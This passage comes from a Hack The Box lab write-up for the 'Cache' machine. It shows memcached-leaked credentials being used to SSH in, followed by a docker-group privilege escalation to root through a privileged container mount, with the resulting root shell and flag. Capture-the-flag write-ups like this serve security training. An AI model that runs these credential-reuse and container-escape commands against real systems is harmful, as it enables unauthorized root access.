ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
get link
VALUE link 0 21
https://hackthebox.eu
END
get file
VALUE file 0 7
nothing
END
get account
VALUE account 0 9
afhj556uo
END
```

using `luffy:0n3_p1ec3` was able to ssh in as `luffy`!

## Enumeration as `luffy`

```text
luffy@cache:/dev/shm$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

Hmm docker...I saw that running on 172.17.0.1 earlier but wasnt able to connect. Using luffy's creds however I was able to SSH in to the docker container. confusingly...the docker container was also named `cache` so at first it looked like I had just logged back into the same machine.

[https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)

> This requires the user to be privileged enough to run docker, i.e. being in the docker group `docker run -v /:/mnt --rm -it --privileged alpine chroot /mnt sh` from the man page

* Usage:  docker run \[OPTIONS\] IMAGE \[COMMAND\] \[ARG...\]
* -i, --interactive                    Keep STDIN open even if not attached
* -t, --tty                            Allocate a pseudo-TTY
* -v, --volume list                    Bind mount a volume
* --rm                             Automatically remove the container when it exits

[https://docs.docker.com/engine/reference/commandline/](https://docs.docker.com/engine/reference/commandline/)

```text
luffy@cache:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        10 months ago       64.2MB
```

None of the pages I looked at explained the 'alpine' part of the command, but it looked like the name of the docker image. after trying `cache` and getting an error, I looked in the man page for how to get the image name and came up with `docker images`. The name of this docker container was `2ca708c1c9cc`. Now I could run my command to escalate to root. `docker run -v /:/mnt --rm -it --privileged 2ca708c1c9cc chroot /mnt sh`

### Root.txt

```text
luffy@cache:~$ docker run -v /:/mnt --rm -it --privileged 2ca708c1c9cc chroot /mnt sh

# id &&hostname
uid=0(root) gid=0(root) groups=0(root)
5cbf7e7969b8
# cat /root/root.txt
90c1e62acc4d72f51790c2b63cc5c458
```

Thanks to [`<box_creator>`](https://www.hackthebox.eu/home/users/profile/<profile_num>) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

